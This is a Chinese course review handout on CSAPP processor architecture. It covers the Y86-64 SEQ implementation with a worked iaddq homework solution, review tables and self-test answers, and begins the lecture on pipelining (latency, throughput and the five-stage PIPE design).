把上面的过程总结成一条时序规律：在 SEQ 中，状态只在时钟上升沿改变，每个上升沿写入的是刚结束的那个周期中那条指令的全部结果（PC 每次都写，CC 只在 OPq 时写，寄存器只在 dstE/dstM 不为 F 时写，内存只在 mem_write = 1 时写）；在两个上升沿之间，状态保持不变，组合逻辑从新状态出发重新计算。由于“从不回读”，一条指令需要的所有输入都在周期开始时已经在状态中，所以一个周期就足以完成它。
第三部分 作业题解答：4.51#
4.51 iaddq 指令的阶段计算#
题目练习题 4.3 引入了 iaddq 指令，它把立即数加到寄存器上，编码为 C0 F rB V（共 10 字节：第 0 字节为 icode = 0xC、ifun = 0，第 1 字节为 F:rB，后面 8 字节为常数 V）。描述实现这条指令所需执行的计算，以 irmovq 和 OPq 的计算（教材图 4.18）作为参考。
分析要从指令的语义开始。iaddq V, rB 的效果是 R[rB] ← R[rB] + V，并像 addq 一样设置条件码。练习题 4.3 的答案用 iaddq 改写了 sum 函数，循环中 iaddq $-1, %rsi 之后紧接着 jne loop，正是依靠 iaddq 设置的 ZF 来判断计数是否减到 0，所以 iaddq 必须设置条件码。它的格式与 irmovq 相同（有寄存器字节、rA = F、有常数），取指照抄 irmovq；它的运算与 OPq 相同（读 rB、ALU 运算、设置条件码、写回 rB），只是另一个操作数由 valA 换成了 valC。
表 15 iaddq 的阶段计算（与 irmovq、OPq 对照）
| 阶段 | irmovq V, rB | OPq rA, rB | iaddq V, rB |
|---|---|---|---|
| 取指 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valP ← PC+2 | icode:ifun ← M1[PC] rA:rB ← M1[PC+1] valC ← M8[PC+2] valP ← PC+10 |
| 译码 | — | valA ← R[rA] valB ← R[rB] | valB ← R[rB] |
| 执行 | valE ← 0 + valC | valE ← valB OP valA Set CC | valE ← valB + valC Set CC |
| 访存 | — | — | — |
| 写回 | R[rB] ← valE | R[rB] ← valE | R[rB] ← valE |
| 更新 PC | PC ← valP | PC ← valP | PC ← valP |
表 15 的阶段计算也可以用模拟器验证。 下面的程序先把 %rbx 置为 5，再执行 iaddq $-7, %rbx：
0x000: 30f30500000000000000 | irmovq $5,%rbx
0x00a: c0f3f9ffffffffffffff | iaddq $-7,%rbx
0x014: 00 | halt表 16 iaddq $-7, %rbx 的各阶段取值（%rbx 原值为 5）
| 阶段 | 通用形式 | 具体取值 |
|---|---|---|
| 取指 | icode:ifun ← M1[0x00a] rA:rB ← M1[0x00b] valC ← M8[0x00c] valP ← 0x00a + 10 | icode:ifun = c:0 rA:rB = f:3 valC = 0xfffffffffffffff9（−7） valP = 0x14 |
| 译码 | valB ← R[%rbx] | valB = 5 |
| 执行 | valE ← valB + valC Set CC | valE = 0xfffffffffffffffe（−2） ZF、SF、OF ← 0、1、0 |
| 访存 | — | — |
| 写回 | R[%rbx] ← valE | %rbx ← 0xfffffffffffffffe |
| 更新 PC | PC ← valP | PC ← 0x14 |
结果为负，SF = 1；两个操作数异号，不会溢出，OF = 0。
答案
延伸：对应的 HCL 修改（教材作业题 4.52，未布置）
把上表“竖着读”，就能知道 seq-full.hcl 中哪些控制块要加上 IIADDQ：取指阶段 instr_valid、need_regids、need_valC 三个集合各加 IIADDQ；译码阶段 srcB 的第一行（读 rB）加 IIADDQ，dstE 的第二行（写 rB）加 IIADDQ；执行阶段 aluA 的 valC 一行、aluB 的 valB 一行、set_cc 各加 IIADDQ。srcA、dstM、alufun（默认就是加法）、访存与 new_pc 都不用改。
本讲义的模拟器按这一修改实现了 iaddq，并运行了练习题 4.3 答案中的 sum 程序（对 4 个元素 0x000d000d000d、0x00c000c000c0、0x0b000b000b00、0xa000a000a000 求和）：32 个周期后以 HLT 停止，%rax = 0xabcdabcdabcd，结果正确。去掉 IIADDQ 的支持后，同一程序在第一条 iaddq 处以 Stat = INS 停止。
第四部分 复习速查#
4.1 SEQ 一页纸#
| 项目 | 内容 |
|---|---|
| 六个阶段 | 取指（icode、ifun、rA、rB、valC、valP）→ 译码（valA、valB）→ 执行（valE、Cnd、设置 CC）→ 访存（valM）→ 写回（E 口写 valE，M 口写 valM）→ 更新 PC |
| 状态部件 | PC、CC、寄存器文件、数据存储器：只在时钟上升沿更新；读操作按组合逻辑处理 |
| 从不回读 | 一条指令不读本条指令更新过的状态，所以所有状态更新可在同一个上升沿完成，一周期一条指令 |
| valP | PC + 1 + need_regids + 8 × need_valC |
| srcA / srcB | srcA：rA（rrmovq、rmmovq、OPq、pushq）| %rsp（popq、ret）；srcB：rB（OPq、rmmovq、mrmovq）| %rsp（push、pop、call、ret） |
| dstE / dstM | dstE：rB（rrmovq 且 Cnd、irmovq、OPq）| %rsp（四条栈指令）；dstM：rA（mrmovq、popq）；M 口优先 |
| aluA / aluB | aluA：valA（rrmovq、OPq）| valC（irmovq、rmmovq、mrmovq）| −8（call、pushq）| +8（ret、popq）；aluB：valB | 0（rrmovq、irmovq） |
| alufun / set_cc | OPq 用 ifun，其余为加法；只有 OPq 设置条件码 |
| 访存 | 地址：valE（rmmovq、pushq、call、mrmovq）| valA（popq、ret）；数据：valA（rmmovq、pushq）| valP（call）；读：mrmovq、popq、ret；写：rmmovq、pushq、call |
| Stat | 地址错 → SADR；非法指令 → SINS；halt → SHLT；否则 SAOK |
| new_pc | call → valC；jXX 且 Cnd → valC；ret → valM；否则 valP |
| 问题 | 时钟周期 ≥ 指令存储器 + 寄存器文件 + ALU + 数据存储器的总延迟，各部件大部分时间空闲 → 流水线（第 11 讲） |
4.2 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | subq 的 ALU 算 valA − valB | ALU 算 aluB OP aluA，即 valB − valA = R[rB] − R[rA] |
| 2 | popq 的访存地址是 valE | popq、ret 从旧栈顶读，地址是 valA；pushq、call 写新栈顶，地址是 valE |
| 3 | mrmovq 的 rA 是源寄存器 | mrmovq D(rB), rA 中 rA 是目的寄存器：srcA = F，dstM = rA |
| 4 | 读出的内存值从 E 口写回 | 内存值（valM）只走 M 口，ALU 结果（valE）只走 E 口 |
| 5 | cmovXX 条件不成立时跳过执行 | ALU 照样计算，只是 dstE 置为 RNONE，不写寄存器 |
| 6 | rmmovq、pushq 的加法也会改条件码 | set_cc 只对 OPq 为 1 |
| 7 | popq %rsp 结果是旧值 + 8 | M 口优先，%rsp = 读出的值 |
| 8 | call 把 valC 压栈 | call 压入返回地址 valP，跳到 valC |
| 9 | ret 的 valM 写回寄存器 | ret 的 valM 送往 PC；dstM = RNONE |
| 10 | jXX 不跳转时 PC 不变 | 不跳转时 PC ← valP = PC + 9 |
| 11 | SEQ 的六个阶段依次占用六个周期 | SEQ 一周期完成一条指令，阶段只是逻辑划分 |
| 12 | OPq 设置的条件码本周期就能被读到 | 新条件码在周期末写入，下一条指令才能用 |
| 13 | 取指地址错时 icode 为错误值 | icode、ifun 被强制为 nop；错误由 Stat = SADR 报告 |
| 14 | valA、valE 等保存在某个寄存器里 | 在 SEQ 中它们只是导线上的信号，由状态持续算出；只有 PC、CC、寄存器文件、内存保存状态（流水线中才用流水线寄存器保存） |
4.3 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| sequential implementation (SEQ) | 顺序实现 | register file read/write port | 寄存器文件读/写端口 |
| fetch / decode / execute | 取指 / 译码 / 执行 | condition code register (CC) | 条件码寄存器 |
| memory / write back | 访存 / 写回 | branch flag (Cnd) | 分支（条件）标志 |
| PC update | 更新 PC | incremented PC (valP) | 增加后的 PC |
| instruction memory | 指令存储器 | instruction constant (valC) | 指令常数 |
| data memory | 数据存储器 | status code (Stat) | 状态码 |
| PC incrementer | PC 增加器 | control logic block | 控制逻辑块 |
| split / align | 拆分 / 对齐 | combinational logic | 组合逻辑 |
| clock rising edge | 时钟上升沿 | no reading back | 从不回读 |
| critical path | 关键路径 | pipelining | 流水线 |
第五部分 自测题#
以下题目为新编，数值均由 SEQ 模拟器核对。
地址 0x100 处的指令是 mrmovq 16(%rsp), %rbx，执行前 %rsp = 0x200，内存 M8[0x210] = 0x77。写出这条指令的 icode、ifun、rA、rB、valC、valP、srcA、srcB、dstE、dstM、valB、valE、valM 和 newPC。
执行 popq %rsp 前 %rsp = 0x100，M8[0x100] = 0x5000。执行后 %rsp 是多少？如果设计者把寄存器文件改成 E 口优先，结果又是多少？
有人把 set_cc 写成了 bool set_cc = 1;。程序 subq %rax,%rax; irmovq $5,%rcx; je L; halt; L: irmovq $1,%rdx; halt 在正确的 SEQ 和这个错误的 SEQ 上分别会怎样运行？
当前 CC 为 ZF = 0、SF = 1、OF = 0。对 rrmovq %rax,%rbx、cmovl %rax,%rbx、cmovge %rax,%rbx 三条指令，dstE 分别是什么？
如果 new_pc 的第二行漏写了 && Cnd，即写成 icode == IJXX : valC;，会出现什么问题？
对教材图 4.25 的程序（10.12 节），周期 5 开始时 PC、CC、%rbx 各是多少？M[0x200] 在哪个时刻变为 0x300？
哪些指令的访存地址取 valA、哪些取 valE？为什么 popq 不能像 pushq 那样用 valE 作为地址？
PC 处的字节是 0xD0；另一种情况是 PC 超出了指令存储器的范围。两种情况下 icode 和 Stat 分别是什么？处理器怎样停止？
对 ret 指令，在 SEQ 一个周期中信号要依次经过哪些部件才能得到新的 PC？为什么说这条路径决定了 SEQ 的时钟周期？
只看 10.11 节的总表，哪些指令同时使用寄存器文件的两个读端口？哪些同时使用两个写端口？哪些既不读也不写寄存器？
自测题答案#
icode = 5、ifun = 0、rA = 3（%rbx）、rB = 4（%rsp）、valC = 0x10、valP = 0x10a；srcA = RNONE、srcB = 4、dstE = RNONE、dstM = 3；valB = 0x200、valE = 0x210、valM = 0x77；newPC = 0x10a。周期结束时 %rbx ← 0x77、PC ← 0x10a。
M 口优先时 %rsp = 0x5000（读出的值，等同于 mrmovq (%rsp), %rsp）。若 E 口优先，%rsp = 0x108（旧值 + 8），与 x86-64 的约定不符，所以教材选择 M 口优先。
正确的 SEQ：subq 使 ZF = 1，irmovq 不改条件码，je 跳转，%rdx = 1。错误的 SEQ：irmovq 在 ALU 中算了 0 + 5 = 5，也把条件码改成 ZF = 0，je 不跳转，直接停机，%rdx = 0。可见 set_cc 必须只对 OPq 为 1。
rrmovq 的 ifun = 0，Cnd 恒为 1，所以 dstE = %rbx；cmovl 的条件 SF ^ OF = 1 成立，dstE 也是 %rbx；cmovge 的条件 ~(SF ^ OF) = 0 不成立，dstE = RNONE，不写。
所有条件跳转都变成无条件跳转：jXX 无论条件是否成立都取 valC。jmp 本身不受影响（它的 Cnd 恒为 1）。
周期 5 开始时 PC = 0x1f、CC = 000、%rbx = 0x300（je 不改这些，只把 PC 改成 0x01f）。rmmovq 在周期 5 中执行，M[0x200] 在周期 5 结束的上升沿才变为 0x300。
popq、ret 取 valA；rmmovq、mrmovq、pushq、call 取 valE。popq 要从旧栈顶读数，而 ALU 算出的 valE 是加 8 之后的新栈指针；旧栈指针已由 A 口读出放在 valA 中，直接用它即可，ALU 照样去算新栈指针，两件事在同一周期并行完成。
如果 PC 处的字节是 0xD0，则 icode = 0xD，instr_valid = 0，Stat = SINS。如果 PC 越界，则 imem_error = 1，icode、ifun 被强制为 nop，Stat = SADR。两种情况下 Stat 都不是 SAOK，这条指令不更新任何状态，处理器停止。
PC → 指令存储器（取出 icode）→ 译码控制块与寄存器文件（读 %rsp）→ ALU（加 8，此值只用于写回）以及访存地址选择 valA → 数据存储器（读出返回地址 valM）→ New PC → PC 的输入。整个过程必须在一个周期内完成；SEQ 的时钟周期要按所有指令中最长的这类路径（取指 + 读寄存器 + 访问数据存储器）来定，所以很慢。
从寄存器文件的使用来看，同时用两个读端口的是 rmmovq、OPq、pushq、ret、popq（ret、popq 两个端口读的都是 %rsp）；同时用两个写端口的只有 popq；既不读也不写寄存器的是 halt、nop、jXX。
—— 第 10 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 11 讲
处理器体系结构 III：流水线实现 PIPE（Processor Architecture III: Pipelined Implementation）
如何使用本讲义#
第 10 讲造出了能跑 Y86-64 程序的 SEQ。它在一个时钟周期里完整地执行一条指令，功能上无懈可击，但速度受限于最慢的那条指令路径：取指、译码、执行、访存四段组合逻辑要在一个周期里串行走完，而每个部件在周期里只忙一小会儿。第 11 讲要做的，是把这四段串行的路径“折叠”起来，让五条指令同时处在不同的阶段上，从而把吞吐量提高数倍——这就是流水线（pipelining）。
这件事的难点不在“把部件插进寄存器”，而在流水线破坏了顺序语义：SEQ 里“一条指令做完再做下一条”这个假象，是靠所有状态在同一个上升沿一起更新维持的；一旦多条指令同时在流水线里，后一条指令就会在前一条指令还没写回时去读寄存器、在分支还没判定时去取指令，读出旧值、取错指令。本讲的全部内容，就是找出流水线会破坏 ISA 语义的每一种情形，并用最少的代价把它补回来：数据相关用转发（forwarding）解决，加载/使用这种转发也救不了的情形用停一拍（load interlock）解决，转移预测错误和 ret 用取消（bubble）与暂停（stall）解决，最后还要考虑几种特殊情况同时出现时的控制逻辑。
全讲的思路可以概括成七步：先用量化的例子说明流水线为什么快、代价是什么（11.1 节）；再改造 SEQ 得到 SEQ+、插入流水线寄存器得到 PIPE−，这一步本身还不能正确处理任何相关（11.2 节）；接着逐条分析数据相关的三种解法——nop、暂停、转发——并说明为什么最终只剩加载/使用需要停一拍（11.3–11.7 节）；然后处理两种控制相关：转移预测错误与 ret（11.8–11.9 节）；再把异常、三张检测/动作表和两种控制组合收拢成完整的流水线控制逻辑，并评价 PIPE 的性能（11.10–11.13 节）；最后把视角拉远，回答三个更宏观的问题——PIPE 为什么天然避开了其它冒险、流水线寄存器的本质是什么、现代 CPU 还用不用这套结构（11.14–11.16 节）；然后用两段完整的程序，示范怎样一步步分析一段汇编在 PIPE 上的冒险与处理（11.17 节），并以本讲小结收束（11.18 节）。所有周期级的数值都由模拟器实际生成；课件与教材不一致或有笔误的地方用橙色方框指出；每节的方框汇总了容易混淆的概念和常被问到的问题。图中的配色沿用课件的约定：蓝色方框是现成的硬件部件，灰色圆角框是控制逻辑，白色方框是流水线寄存器里保存的字段，粗线是 64 位的字，细线是 4～8 位的值，虚线是 1 位的控制信号。
表 1 第 11 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 流水线原理（p.3–12） | 流水线为什么快；延迟、吞吐量与寄存器开销；现代处理器有多深 | 11.1 |
| 五级流水线（p.13–18） | 五个阶段怎么划分；SEQ+ 为什么把 PC 挪到开头；流水线寄存器存什么；有哪些反馈路径 | 11.2 |
| 数据相关（p.19–24） | 什么是 RAW 相关；为什么必须隔三条指令才安全 | 11.3 |
| 解法一：nop（p.21–24） | 编译器/程序员插入空指令；代价是什么 | 11.4 |
| 解法二：暂停（p.25–32） | 硬件自动停住译码级并注入气泡；寄存器怎样被“冻结” | 11.5 |
| 解法三：转发（p.33–40） | 五条旁路、优先级、d_valA/d_valB 的 HCL | 11.6 |
| 加载/使用冒险（p.41–43） | 唯一转发救不了的数据冒险；停一拍的检测条件 | 11.7 |
| 控制相关：转移（p.45–51） | 预测“总是跳转”；猜错时哪两条指令要取消 | 11.8 |
| 控制相关：返回（p.52–57） | ret 为什么不预测；为什么停三拍；为什么从 W 级取返回地址 | 11.9 |
| 异常处理（教材 4.5.6 补充；课件未展开） | 状态码随指令走；异常指令之后的指令不得改状态 | 11.10 |
| 流水线控制（p.59–60） | 三张检测条件、一张动作表、控制信号的 HCL | 11.11 |
| 两朵乌云（p.61–66） | 组合 A、组合 B；为什么最初的 D_bubble 有 bug | 11.12 |
| 性能与总结（p.67–68；教材 4.5.9） | CPI = 1 + 气泡/指令；PIPE 的整套设计原理 | 11.13 |
| 讲义补充：其它冒险 | 为什么结构冒险、WAR/WAW、内存与条件码相关都不成问题 | 11.14 |
| 讲义补充：流水线寄存器 | 一排触发器；把 SEQ 导线上的信号截断锁存；约 720 位的影子状态 | 11.15 |
| 现代 CPU（p.67–68） | 原理仍在、结构大变：超标量、乱序、重命名、ROB、动态预测 | 11.16 |
| 讲义专题：分析一段程序 | 读写寄存器 → 相关距离 → 控制冒险 → 数周期；两个完整例子 | 11.17 |
| 讲义专题：填写 HCL | 前缀用大写还是小写：值已锁存还是正在计算；各寄存器的字段；填空练习 | 11.18 |
| 本讲小结 | 全讲回顾、设计原理清单、第 12 讲预告 | 11.19 |
说明：2026 版课件的变化与本讲义的页码
关于页码，本讲义正文中的“课件 p.x”均指 2026 版（68 页）。研讨题题目沿用 2025 版页码，第二部分开头给出了逐页对照。
2026 版与 2025 版讲同样的内容，但顺序和页面有较大调整，并做了新增与重排。2026 版开头先给流水线图与硬件实现（p.3–6），把算例挪到后面（p.7–10），并新增 p.11“现代处理器的流水深度”和 p.12“流水线思想同样适用于软件”两页课堂点评；p.13 用五级流水线的填充图直接引出本讲主线，p.14、p.17 是新版重画的 SEQ/SEQ+ 与 PIPE− 结构图（只有图，没有文字）；数据相关一节拆成 p.19 分节页和 p.20–32，并新增“Solution #1/#2/#3”三张过渡页（p.21、p.25、p.33）把三种解法串起来；转移预测策略从 2025 版的讲授前段移到了 p.47；p.56“Why doesn't return predict?”、p.58“Are we done?”、p.61“两朵乌云”三页是新增的提问页，2026 版还夹了 5 页“来点 CSAPP 笑话”（p.2、p.15、p.44、p.67、p.68），本讲义只在相关处点出它们的用意。
同时也有一些删减：2025 版 p.10“Data Dependencies”、p.11“Data Hazards”两页抽象示例合并成 2026 版 p.19 的分节页；2025 版 p.16“Pipeline Stages”、p.18“Signal Naming Conventions”、p.22“Recovering from PC Misprediction”在 2026 版没有单独成页，本讲义按教材 4.5.2–4.5.4 补全（表 4、表 6、11.2 节末）。
还有几处写法需要留意：p.16 左侧结构图的译码部件把写端口标成 dstA、dstB（应为 dstE、dstM，第二版教材留下的旧名字）；p.8 的“3.12 B ins/s”只是单位写法不同（等于 GIPS，数值无误）。其余几处与讲义不一致的地方见各节方框。
第一部分 第 11 讲知识点：流水线处理器 PIPE#
11.1 为什么需要流水线：延迟、吞吐量与代价（课件 p.3–12）#
第 10 讲的 SEQ 在一个时钟周期里走完取指、译码、执行、访存、写回、更新 PC 六个阶段，功能正确，但它的时钟周期必须长到让最慢的一条指令把全部组合逻辑走完。以 ret 为例：周期一开始 PC 才更新，信号要穿过指令存储器取下一条指令、穿过寄存器文件读出 %rsp、穿过 ALU 加 8、再穿过数据存储器读出返回地址，最后才选出新的 PC。这条路径上的每一个部件都是串行工作的，而其中大多数部件在一个周期里只忙一小段时间——指令存储器只在周期开头忙，数据存储器要到周期末尾才忙。SEQ 的吞吐量因此被死死钉在“一个周期一条指令”，周期长度又由最慢路径决定。
流水线（pipelining）解决的就是这个矛盾。它的想法来自现实世界：课件 p.4 用洗车（car wash）作例子——洗一辆车要经过冲洗、擦洗、烘干几个相互独立的阶段，一辆车在冲洗时，后一辆车完全可以在擦洗，再后一辆车在烘干。课件把三种做法并列：顺序（sequential）是让一辆车走完全部阶段再开进下一辆，资源大部分时间空闲；并行（parallel）是买三套设备同时洗三辆车，速度快但成本高三倍；流水线（pipelined）只保留一套设备，让三辆车错开时间分别占用三个不同阶段，既不增加设备，又让设备一直有活干。三者的区别要记住：并行靠复制资源换取速度，流水线靠重叠使用同一套资源换取速度。
示例：把 SEQ 的“一条指令”看成洗车线上的“一辆车”
SEQ 的做法相当于只有一间工位的洗车房：车开进去，冲洗、擦洗、烘干全部做完才开出来，下一个才能进。流水线相当于把一间大工位隔成冲洗、擦洗、烘干三小间：车依次通过三小间，任意时刻三间里各有一辆车。同一辆车的总时间变长了（中间多了进出工位的时间），但单位时间洗好的车多了两倍多。
用数字把这件事说清楚（课件 p.6、p.8）。设一次“计算”由一段 300 ps 的组合逻辑完成，另外需要 20 ps 把结果存入寄存器。未流水线的系统每个时钟周期至少要 300 + 20 = 320 ps：信号必须在一个周期内传播完组合逻辑，并在下一个上升沿被寄存器收下。于是延迟（latency，从一条操作进入系统到它完成的时间）是 320 ps，而吞吐量（throughput，单位时间完成的操作数）是 1/320 ps = 3.12×109 次/秒，即 3.12 GIPS（giga-instructions per second）。2026 版课件 p.8 把这个数写成“3.12 B ins/s”，与 GIPS 是同一个意思，只是单位换了个写法。
现在把 300 ps 的组合逻辑切成三段，每段 100 ps，并在段与段之间插入寄存器（课件 p.5、p.8）。每个时钟周期只需要 100 + 20 = 120 ps；但一条操作要走完三段，在系统里停留 3×120 = 360 ps，延迟反而变大了。换来的是：每隔 120 ps 就能送一条新操作进流水线，三条操作同时处在三个不同阶段，吞吐量变成 1/120 ps = 8.33 GIPS，是原来的 2.67 倍。这个倍数不是 3，差额正是每个阶段都要付的 20 ps 寄存器开销——如果寄存器不花时间、阶段又绝对均匀，三级流水的吞吐量才会正好是三倍。
图 1 流水线的基本结构与流水线图（课件 p.5–8）：(a) 未流水线，一条操作结束后才能开始下一条；(b) 三级流水线，每级 100 ps 加 20 ps 寄存器，三条操作重叠；(c) 流水线图，横轴是时间、每一行是一条操作
课件 p.5 的流水线图（pipeline diagram）是分析流水线的基本工具：横轴是时间，从 0 开始按时间点标注；每一行是一条操作，行内按阶段填写 A、B、C，每个格子占一个时钟周期。未流水线的图上，一行要填满整段 300 ps 才出现下一行，格子之间有大段空白；三级流水线的图上，行与行错开一格，任意时刻恰好有三格填着。课件 p.7 进一步用四个时刻（239、241、300、359 ps）的快照说明流水线是怎样被“填满”的：0 ps 时只有第一条操作在阶段 A，120 ps 时第二条进入 A、第一条进入 B，240 ps 时三条操作把 A、B、C 占满；此后每当一条操作从 C 离开，就有一条新操作从 A 进入，稳态下每 120 ps 完成一条。把图 1(c) 的每个格子看成一个“部件在某个周期里为某条指令工作”，就得到了后面 SEQ+ 和 PIPE 的硬件结构图的雏形。图 2 把课件 p.7 的四个观察时刻单独画了出来：0 ps 时只有一条操作在阶段 A，120 ps 时两条操作分别占用 A、B，240 ps 时三条操作占满 A、B、C；课件在 239、241、300、359 ps 四个时刻各取一张快照，是为了展示“时钟沿之前”与“时钟沿之后”的差别——239 ps 时第一、二条操作都已经完成了各自阶段的组合逻辑，但要等到 240 ps 的上升沿才把结果锁进寄存器，所以 241 ps 看到的才是它们进入下一阶段之后的样子。
图 2 课件 p.7 的四个观察时刻（仿教材图 4.47）：0/120/240 ps 是流水线被填满的过程，239、241 是同一个时钟沿前后的两张快照，300、359 ps 则展示了稳态下三条操作同时占用三个阶段
流水线不是完美的，课件 p.9、p.10 给出两种限制。第一种是阶段不均匀（nonuniform delays）：如果三段组合逻辑分别是 50 ps、150 ps、100 ps，那么时钟周期由最慢的一段决定，是 150 + 20 = 170 ps；延迟变成 3×170 = 510 ps，吞吐量只有 5.88 GIPS。慢的那一段忙个不停，快的那两段大部分时间空闲，流水线的效率被最慢阶段拖住。所以“把系统划分成均衡的阶段”是流水线设计的核心难点之一。
第二种是寄存器开销（register overhead）：流水线越深，每个阶段分摊到的组合逻辑越少，而每级固定要付的 20 ps 寄存器时间占比就越大。课件 p.10（以及 p.8）给出三组数字：1 级流水线每周期 320 ps，寄存器占 20/320 = 6.25%；3 级流水线每周期 120 ps，占 20/120 = 16.67%；6 级流水线把组合逻辑切成 6 段各 50 ps、每周期 70 ps，寄存器占 20/70 = 28.57%，此时延迟 6×70 = 420 ps，吞吐量 14.29 GIPS。可见加深流水线能继续提高吞吐量，但收益越来越小，代价（响应延迟、误预测时的清空级数、控制复杂度）越来越大。表 2 把这几组数字放在一起。
表 2 流水线深度的量化对比（课件 p.8–10；寄存器延迟 20 ps）
| 设计 | 每级组合逻辑 | 时钟周期 | 单条延迟 | 吞吐量 | 寄存器开销占比 |
|---|---|---|---|---|---|
| 未流水线（1 级） | 300 ps | 320 ps | 320 ps | 3.12 GIPS | 20/320 = 6.25% |
| 3 级，均匀 | 3 × 100 ps | 120 ps | 360 ps | 8.33 GIPS | 20/120 = 16.67% |
| 3 级，不均匀 | 50/150/100 ps | 170 ps | 510 ps | 5.88 GIPS | 20/170 = 11.76% |
| 6 级，均匀 | 6 × 50 ps | 70 ps | 420 ps | 14.29 GIPS | 20/70 = 28.57% |
现代处理器正是沿着“加深流水线”这条路走的，课件 p.11（2026 版新增）给出了几个例子（表 3）。流水线越深，时钟频率可以越高、每周期的工作越少，但一次分支预测错误要清空的级数也越多：Pentium 4 Prescott 的 31 级流水线换来很高的频率，代价是误预测要损失几十个周期；Skylake 之后的设计把深度控制在 14～19 级（视执行路径而定），AMD Zen 4、Zen 5 的分支误预测惩罚分别是 15～18 和 15～25 个周期。这张表说明：流水线深度是一个综合权衡，不是越深越好。
表 3 现代处理器的流水线深度（课件 p.11）
| 处理器 | 流水线深度 / 相关指标 |
|---|---|
| Intel Core 2（2006） | 约 14 级 |
| Intel Skylake（2015） | 约 14～19 级（随执行路径不同） |
| AMD Zen 4（2022） | 15～18 个周期的分支误预测惩罚 |
| AMD Zen 5（2024） | 实测 15～25 个周期的分支误预测惩罚 |
| Intel Pentium 4 Prescott（2004） | 31 级 |
课件 p.12（2026 版新增的点评页）指出，流水线的思想同样适用于软件。编译器可以把循环体展开（loop unrolling）、把不同迭代的指令交错排布（软件流水，software pipelining）、重新安排指令顺序（指令调度），让指令级并行在没有硬件流水线的情况下也能被利用；反过来，软件层面的优化也可以减轻硬件流水线被数据相关卡住的程度。这正是教材第 5 章“优化程序性能”的主题。理解硬件流水线为什么会被数据相关卡住，也就理解了为什么软件层面要刻意把相关指令拉开距离。
常见问题：流水线让一条指令变快了吗？
没有，带宽是变快了，单条指令反而变慢。三级流水线的延迟是 360 ps，比未流水线的 320 ps 还大：多出来的时间是每一级的寄存器开销，以及操作要依次穿过更多级。流水线提高的是吞吐量——同时处理多条指令时，单位时间完成的指令数从 1/320 ps 提高到 1/120 ps。所以对“只执行一条指令、之后什么也不做”的程序，流水线没有任何好处；它的价值在于连续执行大量指令的真实程序。
常见问题：为什么三级流水线的吞吐量不是整整 3 倍？
因为寄存器开销。每级的组合逻辑从 300 ps 降到 100 ps，但每级还要加 20 ps 的寄存器时间，周期是 120 ps 而不是 100 ps。320/120 = 2.67 倍，而不是 3 倍。若把寄存器延迟看成 0，周期就是 100 ps，吞吐量恰好是三倍。课件 p.10 的“寄存器开销占比”就是用来衡量这个损失的：深度越大，占比越高，加深流水线的收益越小。
常见问题：流水线和“并行”是一回事吗？
不是。并行（parallel）是增加资源同时处理多个对象，例如三套洗车设备同时洗三辆车；流水线（pipelined）不增加资源，而是让同一套资源在不同对象之间重叠使用——冲洗间给第二辆车用时，擦洗间正在给第一辆车用。课件 p.4 把这三种做法（顺序、并行、流水线）并列，就是为了强调这一点。它们的效果都可以提高吞吐量，但代价不同：并行受资源成本限制，流水线受阶段均衡和各阶段里的“相关”限制。
11.2 五级流水线：从 SEQ、SEQ+ 到 PIPE−（课件 p.13–18）#
课件 p.13 用一张五条指令的流水线图给出了本讲的主线（图 3 照课件重画）：把一条指令的处理拆成取指 F、译码 D、执行 E、访存 M、写回 W 五个阶段，相邻阶段之间插入一个寄存器，于是一个周期里最多有五条指令同时处在不同阶段。图的左边是程序（demo-basic.ys：四条 irmovq 和一条 halt，课件用 #I1～#I5 编号），右边每一行对应一条指令，行内的格子标出这条指令在第几个周期处于哪个阶段；后一条指令比前一条晚一个周期开始，所以各行像台阶一样向右下方错开。
图 3 五级流水线的流水线图（课件 p.13）：每行一条指令、每列一个周期；第 5 周期（蓝色一列）五条指令分别处在五个阶段，右侧把这一列放大，自下而上依次是 F、D、E、M、W
读这种图的方法是竖着看一列。课件在第 5 周期画了一条竖线，并把这一列单独放大：这一周期里，I1 处在 W 级、I2 在 M 级、I3 在 E 级、I4 在 D 级、I5（halt）在 F 级——五个阶段都被占满，这正是流水线“一个周期完成一条指令”的稳态。还要注意，放大框是按“从下往上”画的：程序的顺序是从上往下写的，而放大框把取指放在最下面、写回放在最上面，于是指令在框里是自下而上流动的；这与后面 SEQ+、PIPE 的硬件结构图（图 4、图 5）的方向完全一致。本讲后面分析冒险时，课件反复使用这种“流水线图 + 某一周期的放大框”的画法，讲义也照此重画（图 6～图 15）。
五个阶段各自做什么，2025 版课件 p.16（“Pipeline Stages”一页，2026 版删去了这一页）与教材 4.5.2 节给出了定义，表 4 把它们与 SEQ 的六个阶段对应起来。与 SEQ 相比，流水线的阶段划分有两处调整：一是把“更新 PC”并进了取指阶段——流水线里每个周期都要取一条新指令，PC 的选择必须在取指阶段一开头就完成；二是“译码”阶段除了读寄存器，还要把本条指令的 dstE、dstM、srcA、srcB 一起算出来并锁存下去，因为寄存器文件的两个写端口要到写回阶段才用，那时必须知道“写哪两个寄存器”。
表 4 五级流水线各阶段的任务（课件 p.16–17；与 SEQ 的六个阶段对照）
| 阶段 | 任务（课件 p.16） | 与 SEQ 的对应 |
|---|---|---|
| F 取指（Fetch） | 选出当前 PC；从指令存储器读出指令字节并拆出 icode、ifun、rA、rB、valC；PC 增加器算出 valP；并预测下一条指令的 PC | 对应 SEQ 的“取指”加“更新 PC” |
| D 译码（Decode） | 从寄存器文件读出两个操作数，得到 valA、valB；算出 srcA、srcB、dstE、dstM 并锁存 | 对应 SEQ 的“译码”，另外提前算出写回要用的目的寄存器编号 |
| E 执行（Execute） | ALU 计算 valE；根据条件码与 ifun 算出 Cnd；OPq 在这里设置条件码 | 与 SEQ 的“执行”相同 |
| M 访存（Memory） | 读或写数据存储器，得到 valM；分支的条件 Cnd 在这里定案 | 与 SEQ 的“访存”相同，另外承担分支决议 |
| W 写回（Write back） | 把 valE 或 valM 写回寄存器文件 | 与 SEQ 的“写回”相同 |
（1）为什么不能直接给 SEQ 插流水线寄存器：SEQ+（课件 p.14；教材 4.5.1）#
